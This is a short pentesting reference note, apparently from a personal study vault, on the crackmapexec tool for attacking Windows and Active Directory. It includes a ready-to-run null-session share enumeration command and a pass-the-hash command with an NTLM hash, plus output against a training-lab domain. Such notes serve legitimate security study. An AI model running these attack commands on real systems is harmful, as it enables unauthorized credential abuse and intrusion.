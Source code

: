 # 💢 crackmapexec

Tags: #💢
Related to:
See also:
Previous: [[SMB Analysis]], [[Footprinting]]

## Description

This package is a swiss army knife for pentesting Windows/Active Directory environments.

From enumerating logged on users and spidering SMB shares to executing psexec style attacks, auto-injecting Mimikatz/Shellcode/DLL’s into memory using Powershell, dumping the NTDS.dit and more.

The biggest improvements over the above tools are:

-   Pure Python script, no external tools required
-   Fully concurrent threading
-   Uses **ONLY** native WinAPI calls for discovering sessions, users, dumping SAM hashes etc…
-   Opsec safe (no binaries are uploaded to dump clear-text credentials, inject shellcode etc…)

Additionally, a database is used to store used/dumped credentals. It also automatically correlates Admin credentials to hosts and vice-versa allowing you to easily keep track of credential sets and gain additional situational awareness in large environments.

## Usage Examples

### Enumerate SMB shares using null session authentication

	crackmapexec smb <FQDN/IP> --shares -u '' -p ''	

### Pass-the-hash attack

	crackmapexec smb 10.129.41.19 -u rachel -H e46b9e548fa0d122de7f59fb6d48eaa2

```shell-session
SMB         10.129.43.9     445    DC01      [*] Windows 10.0 Build 17763 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    DC01      [+] INLANEFREIGHT.LOCAL\rachel:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)
```

# References
